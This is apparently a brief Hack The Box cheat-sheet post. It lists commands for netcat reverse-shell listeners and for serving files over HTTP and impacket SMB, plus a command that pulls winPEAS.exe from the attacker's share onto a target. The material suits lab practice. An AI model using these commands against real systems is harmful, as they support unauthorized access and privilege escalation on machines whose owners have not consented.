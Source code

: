 ```yaml
---
title: Useful commands
date: 2023-03-24 20:55:00 +0800
categories: [HTB]
tags: [Commands]
pin: false
---
```


## Start listener

### For Linux

```console
sudo nc -nvlp 4444
```

### For Windows

```console
sudo rlwrap nc -nvlp 443
```

### Web service

```console
sudo python3 -m http.server 80
```

### SMB service with python impacket

```console
sudo smbserver.py share . -smb2support
```

## Get resource from service

### SMB

```console
copy \\<local_ip>\share\winPEAS.exe .
```
